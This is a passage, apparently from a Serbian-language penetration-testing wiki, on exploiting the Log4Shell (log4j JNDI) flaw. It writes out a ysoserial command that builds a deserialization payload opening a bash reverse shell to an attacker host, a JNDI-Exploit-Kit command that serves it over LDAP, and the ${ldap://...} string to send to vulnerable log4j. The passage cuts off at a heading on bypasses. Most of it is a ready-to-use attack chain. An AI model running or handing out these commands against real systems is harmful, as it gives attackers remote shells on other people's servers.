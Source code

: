 Korišćenjem **ysoserial**-a ili [**ysoserial-modified**](https://github.com/pimps/ysoserial-modified) možete kreirati deserializacijski eksploit koji će biti preuzet putem JNDI:

```bash
# Rev shell via CommonsCollections5
java -jar ysoserial-modified.jar CommonsCollections5 bash 'bash -i >& /dev/tcp/10.10.14.10/7878 0>&1' > /tmp/cc5.ser
```

Koristite [**JNDI-Exploit-Kit**](https://github.com/pimps/JNDI-Exploit-Kit) da biste generisali **JNDI linkove** gde će eksploit čekati konekcije sa ranjivih mašina. Možete poslužiti **različite eksploite koji se mogu automatski generisati** pomoću JNDI-Exploit-Kit-a ili čak vaše **sopstvene deserializacijske payload-e** (generisane od strane vas ili ysoserial).

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 10.10.14.10:1389 -P /tmp/cc5.ser
```

![](<../../.gitbook/assets/image (642) (1) (1).png>)

Sada možete lako koristiti generisani JNDI link da iskoristite ranjivost i dobijete **obrnutu ljusku** samo slanjem na ranjivu verziju log4j-a: **`${ldap://10.10.14.10:1389/generated}`**

### Zaobilazi
